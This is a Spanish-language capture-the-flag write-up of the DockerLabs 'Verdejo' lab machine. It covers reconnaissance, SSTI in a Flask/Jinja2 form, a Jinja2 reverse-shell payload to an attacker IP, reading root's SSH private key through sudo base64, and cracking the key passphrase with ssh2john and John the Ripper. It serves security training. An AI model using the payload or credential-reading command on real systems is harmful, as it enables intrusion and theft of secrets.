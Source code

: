 ```yaml
---
title: Verdejo - DockerLabs
published: 2024-10-25
description: 'Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.'
image: '../../../assets/DockerLabs/Verdejo/verdejo.jpeg'
tags: [DockerLabs, RedTeam, Pentesting, HTTP, SSTI, SSH, SSH2JOHN, JohnTheRipper, Linux]
category: 'WriteUp'
draft: false 
---
```


## Introduction 

En este WriteUp, abordaremos la máquina Verdejo de la plataforma **[DockerLabs](https://dockerlabs.es/)**, máquina creada por **[TheHackersLabs](https://thehackerslabs.com/)**. Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.

```json
Platform: DockerLabs
Level: Easy
OS: Linux
```

## Reconnaissance

~~~
Target: 172.17.0.2
~~~

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir la latencia. Podemos inferir que es una máquina **Linux** debido a que el **ttl = 64**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-1.png)

## Scanning 

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-2.png)

Vemos que tenemos los puertos **22/SSH**, **80/HTTP** y **8089/unknown**. Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-3.png)

## Enumeration

**22/SSH**
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 9.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

**80/HTTP**
El puerto 80 ejecuta un servidor web **Apache/2.4.59**. Por lo visto es la página default de Apache.

**8089/Unknown**
Por lo visto el puerto 8089 ejecuta lo que es la página web por lo cual podemos inferir que para acceder a ella necesitamos indicar el puerto. Vemos que útiliza **Werkzeug/2.2.2** y **Python/3.11.2** 

Al acceder al sitio efectivamente nos lleva a la página web default de Apache.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-4.png)

Al hacer **Web fuzzing** utilizando **Gobuster** en busca de archivos y directorios ocultos no encontramos nada interesante.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-5.png)

Haremos uso de **whatweb** para obtener más información acerca del sitio web está vez indicando el puerto **:8089** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-6.png)

Como vemos nos índica que es accesible y al ingresar notamos un formulario.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-7.png)

Al enviar la palabra "Hola" notamos que la representa en el **DOM (Document Object Model)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-8.png)

Intentamos ver si es vulnerable a **XSS (Cross-Site Scripting)** vulnerabilidad que permite a un atacante inyectar scripts maliciosos en páginas web. Ingresamos código JavaScript para ver como reacciona la página. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-9.png)

Como vemos el servidor refleja la respuesta por lo que estamos ante **XSS Reflected (Reflejado)** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-10.png)

Como no podemos obtener de manera directa **RCE (Remote Code Execution)** intentaremos **SSTI (Server-Side Template Injection)**, una vulnerabilidad que permite inyectar código en plantillas del lado del servidor. En primer lugar comprobaremos si es vulnerable indicando `{{7x7}}` y en caso de que responda de manera correcta el resultado de la multiplicación estariamos la vulnerabilidad **SSTI**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-11.png)

Como vemos, respondió **49** por lo efectivamente estamos ante **SSTI (Server-Side Template Injection)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-12.png)

## Exploitation

Al leer acerca de está vunerabilidad en **[Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)** me centro más que nada en la sección de **Payloads de Python** debido a que, recordemos, el servidor web ejecutaba **Python/3.11.2**: Me encuentro está sección interesante que menciona **RCE (Remote Command Execution)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-13.png)

Escribo el **Payload** de **Jinja2 (Un motor de plantillas con todas las funciones para Python)** en el formulario para ver si es efectivo 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-14.png)

Resulta que si, es vulnerable al payload de **Jinja2 (Python)** por lo que podemos inferir que ejecuta este motor de plantillas. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-15.png)

Como podemos ejecutar comandos arbitrarios, podriamos hacer uso de una **reverse shell** y obtener **RCE**. El payload que usaremos es: 

~~~jinja2
{{ cycler.__init__.__globals__.os.popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.10/1717 0>&1'").read() }} 
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-16.png)

Luego de pondremos en escucha mediante **Netcat** en el puerto **1717** y al enviar el payload obtenemos acceso. Como vemos somos el usuario: **verde**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-17.png)

Realizamos el **tratamiento de la tty** para no tener ningún problema o inconveniente innecesario a la hora de usar la términal luego de la reverse shell.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-18.png)

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-19.png)

## Privilege Escalation

Ejecutamos el comando `sudo -l` para listar los permisos **sudo** del usuario actual y como vemos nos indica que el usuario verde puede ejecutar el siguiente comando como super usuario sin la necesidad de contraseña: **(root) NOPASSWD: /usr/bin/base64

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-20.png)

Según **[GTFObins](https://gtfobins.github.io)** el binario nos permite acceder a archivos del sistema como super usuario. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-21.png)

- **`sudo base64 <FILE TO READ>`**: Este comando toma un archivo (reemplaza `<FILE TO READ>` con la ruta del archivo) y lo codifica en formato base64. Usar `sudo` permite ejecutar el comando con privilegios de superusuario, lo que puede ser necesario si el archivo requiere permisos especiales para ser leído.
    
- **`| base64 --decode`**: El operador `|` (pipe) toma la salida del primer comando (la representación base64 del archivo) y la pasa como entrada al segundo comando. `base64 --decode` decodifica esa representación base64 de vuelta a su forma original.

Intentaremos acceder a la **id_rsa** de **root** aprovechando el comando:

~~~
sudo /usr/bin/base64 /root/.ssh/id_rsa | base64 --decode
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-22.png)

Como vemos tenemos la **clave privada** con lo cual podriamos acceder. Crearemos un archivo llamado **id_rsa** con el contenido de la **clave privada** en nuestra máquina local y le daremos permisos con `chmod 600 id_rsa` 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-23.png)

Al intentar ingresar al **SSH** del usuario **root** nos pide la key de la **id_rsa** por lo que necesitamos extraer el **hash** de la misma.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-24.png)

Extraemos el **hash** de la **id_rsa** con la herramienta **ssh2john**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-25.png)

Con **JohnTheRipper** crackeamos el hash para obtener la key de la **id_rsa** y vemos que es: **honda1**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-26.png)

Ahora al intentarlo nuevamente y escribir la **key** de la **id_rsa** vemos que ingresamos correctamente. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-27.png)

Con **whoami && id** vemos que somos **root** por lo que tenemos control total del sitema y por lo tanto hemos finalizado la máquina.

<br>